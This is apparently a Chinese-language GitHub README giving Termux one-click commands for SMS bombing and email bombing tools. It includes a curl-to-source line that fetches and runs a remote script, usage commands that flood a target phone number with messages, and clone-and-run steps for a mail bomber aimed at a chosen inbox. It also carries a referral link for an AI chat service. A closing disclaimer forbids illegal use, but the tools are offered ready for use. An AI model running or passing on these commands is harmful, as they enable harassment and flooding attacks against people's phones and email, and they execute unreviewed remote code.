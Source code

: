 # 概述
  

- 如果你还没有下载termux可以点击[这里](https://f-droid.org/en/packages/com.termux/)


- 假如你在代码使用的过程中出现类似于的选项。
>Do you want to continue? [Y/n]
>
- 直接回车enter即可

免费GPT o1 模型支持 邀请可Pro 这里[https://chat01.ai/?ref=AH4NeCmB]

# 一键代码使用
   ## 短信轰炸
  
  `source <(curl -L https://raw.githubusercontent.com/cat-bucket/cat-osint/main/sms.txt)`
- 直接粘贴代码进入即可，后续可以直接使用下列指令（不要更新接口）

- 基本版
  `cd cat-osint;python easy.py`
  
- 不同参数（同原版smsboom）
  `cd cat-osint;python main.py run -t 64 -p 184****9269 -f 60 `

  ## 邮箱轰炸
  
  在使用之前配置
  
 `pkg install git -y && pkg install php -y && pkg install python -y && git clone https://github.com/cat-bucket/mail-bomber && cd mail-bomber
`
 

### 无需邮箱但无法指定内容
   
更新接口（可选）

`php index.php update-nodes`

后续使用

`cd mail-bomber;php index.php start-bombing 邮箱`

替换要轰炸的邮箱




# 免责声明
本库为对各种程序的简单调用提供，仅供参考，禁止用于商业及非法用途。使用一键指令可能造成的事故与损失，短信轰炸并不安全，警遵中国法律。


